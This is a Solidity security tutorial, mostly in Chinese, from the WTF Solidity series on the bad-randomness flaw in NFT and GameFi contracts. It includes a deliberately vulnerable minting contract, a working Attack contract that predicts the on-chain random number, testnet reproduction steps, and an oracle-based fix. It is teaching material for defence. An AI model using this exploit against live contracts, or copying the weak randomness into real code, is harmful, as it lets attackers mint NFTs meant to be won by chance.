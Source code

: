 ```yaml
---
title: S07. Bad Randomness
tags:
  - solidity
  - security
  - random
---
```


# WTF Solidity S07. Bad Randomness

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

-----

这一讲，我们将介绍智能合约的坏随机数（Bad Randomness）漏洞和预防方法，这个漏洞经常在 NFT 和 GameFi 中出现，包括 Meebits，Loots，Wolf Game等。

## 伪随机数

很多以太坊上的应用都需要用到随机数，例如`NFT`随机抽取`tokenId`、抽盲盒、`gamefi`战斗中随机分胜负等等。但是由于以太坊上所有数据都是公开透明（`public`）且确定性（`deterministic`）的，它没有其他编程语言一样给开发者提供生成随机数的方法，例如`random()`。很多项目方不得不使用链上的伪随机数生成方法，例如 `blockhash()` 和 `keccak256()` 方法。

坏随机数漏洞：攻击者可以事先计算这些伪随机数的结果，从而达到他们想要的目的，例如铸造任何他们想要的稀有`NFT`而非随机抽取。更多的内容可以阅读 [WTF Solidity极简教程 第39讲：伪随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random)。

![](./img/S07-1.png)

## 坏随机数案例

下面我们学习一个有坏随机数漏洞的 NFT 合约： BadRandomness.sol。

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("", ""){}

    // 铸造函数：当输入的 luckyNumber 等于随机数时才能mint
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

它有一个主要的铸造函数 `luckyMint()`，用户调用时输入一个 `0-99` 的数字，如果和链上生成的伪随机数 `randomNumber` 相等，即可铸造幸运 NFT。伪随机数使用 `blockhash` 和 `block.timestamp` 声称。这个漏洞在于用户可以完美预测生成的随机数并铸造NFT。

下面我们写个攻击合约 `Attack.sol`。

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // 提前计算随机数
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // 利用 luckyNumber 攻击
        nftAddr.luckyMint(luckyNumber);
    }
}
```

攻击函数 `attackMint()`中的参数为 `BadRandomness`合约地址。在其中，我们计算了随机数 `luckyNumber`，然后将它作为参数输入到 `luckyMint()` 函数完成攻击。由于`attackMint()`和`luckyMint()`将在同一个区块中调用，`blockhash`和`block.timestamp`是相同的，利用他们生成的随机数也相同。

## `Remix` 复现

由于 Remix 自带的 Remix VM不支持 `blockhash`函数，因此你需要将合约部署到以太坊测试链上进行复现。

1. 部署 `BadRandomness` 合约。

2. 部署 `Attack` 合约。

3. 将 `BadRandomness` 合约地址作为参数传入到 `Attack` 合约的 `attackMint()` 函数并调用，完成攻击。

4. 调用 `BadRandomness` 合约的 `balanceOf` 查看`Attack` 合约NFT余额，确认攻击成功。

## 预防方法

我们通常使用预言机项目提供的链下随机数来预防这类漏洞，例如 Chainlink VRF。这类随机数从链下生成，然后上传到链上，从而保证随机数不可预测。更多介绍可以阅读 [WTF Solidity极简教程 第39讲：伪随机数](https://github.com/AmazingAng/WTF-Solidity/tree/main/39_Random)。

## 总结

这一讲我们介绍了坏随机数漏洞，并介绍了一个简单的预防方法：使用预言机项目提供的链下随机数。NFT 和 GameFi 项目方应避免使用链上伪随机数进行抽奖，以防被黑客利用。

